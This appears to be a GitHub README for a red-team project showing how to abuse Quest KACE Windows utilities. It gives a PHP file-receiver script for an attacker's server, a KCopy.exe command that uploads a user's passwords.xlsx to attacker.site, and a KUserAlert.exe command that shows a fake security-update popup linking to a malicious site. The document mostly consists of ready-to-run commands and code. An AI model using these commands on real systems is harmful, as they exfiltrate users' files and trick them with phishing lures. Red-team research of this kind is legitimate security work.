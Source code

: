 # kace-abuse
Using KACE (Quest) Windows utilities for Red Teaming.

Two examples of abusing KACE command line utilities.  The first example leverages `KCopy.exe` to upload a file to a remote web server through HTTP PUT.  The second example leverages `KUserAlert.exe` to produce a popup alert on the user's desktop, prompting them to click on a malicious link.

**Uploading a file**<br />
Create an upload page on your attacking web server to receive the file.  This example uses PHP `recv_file.php`.

```php
<?php
$fl = fopen('/php_upload_path/recv_file.out', 'w');
$pd = fopen("php://input", "r");
while ($d = fread($pd, 1024))
   fwrite($fl, $d);
fclose($fl);
fclose($pd);
?>
```

Execute the KACE utility to upload a file.

`"C:\Program Files (x86)\Quest\KACE\KCopy.exe" %USERPROFILE%\Documents\passwords.xlsx https://attacker.site/recv_file.php`

![alt text](https://github.com/billchaison/kace-abuse/blob/main/k00.png)

**Creating a popup message**<br />

`"C:\Program Files (x86)\Quest\KACE\KUserAlert.exe" -name="IMPORTANT MESSAGE" -message="Your computer is missing critical security updates.  Click here to install them as soon as possible, https://attacker.site" -title="Mandatory Software Patches Required" -ok`

![alt text](https://github.com/billchaison/kace-abuse/blob/main/k01.png)

![alt text](https://github.com/billchaison/kace-abuse/blob/main/k02.png)



